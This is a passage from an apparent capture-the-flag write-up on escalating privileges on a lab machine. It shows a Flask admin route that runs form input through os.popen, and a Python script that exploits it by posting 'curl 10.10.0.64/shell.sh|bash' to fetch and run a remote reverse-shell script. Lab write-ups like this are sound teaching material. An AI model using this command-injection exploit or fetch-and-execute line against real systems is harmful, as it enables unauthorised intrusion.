 This will return a shell as www-data.

### PRIV ESC

After getting a shell as www-data, I noticed an interesting zip file
```
carla@casino:/var/www/webApp$ ls -la
total 1072
drwxr-xr-x 3 root root    4096 Jul 14 13:30 .
drwxr-xr-x 4 root root    4096 Jul 14 13:25 ..
-rw-r--r-- 1 root root 1080049 Jul 14 13:26 index.casino.csl.zip
drwxr-xr-x 4 root root    4096 Jul 14 13:55 webApp
-rw-r--r-- 1 root root     198 Jul 14 13:30 webapp.wsgi
```
I moved the file over to my machine and saw the source code for the webserver running on port 9000 with some interesting os.system calls.
```
@app.route("/admin", methods=["GET", "POST"])
def admin():
    if request.remote_addr != "127.0.0.1":
        return "Localhost Access Only!"
    else:
        if request.method == "POST" and request.form.get("cmd"):
            cmd = request.form.get("cmd")
            output = os.popen(cmd).read() # os.system(cmd) # os.popen("command").read()
            flash(output, "info")
        return render_template('admin.html')

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=9000)
```
Also inside this zip file was `x.py` which showcased the RCE for me (I think this was an oversight of the creator as they didn't seem to have intended it after speaking with them). 

Here is the x.py that I modified to get a reverse shell for me.
```
#!/usr/bin/env python3

from urllib.parse import *
import requests

def convertToPost(url):
    parsed = urlparse(url)
    parsedURL = f"{parsed.scheme}://{parsed.netloc}{parsed.path}"
    return parsedURL, parse_qs(parsed.query)

url, data = convertToPost("http://localhost:9000/admin?cmd=curl%2010.10.0.64/shell.sh|bash")
print(url, data)
requests.post(url, data).text
```
Now we can run the python program as www-data and get a shell on our listener as user grey.

From here we can check through the .git folder of the project inside the /home/grey directory.

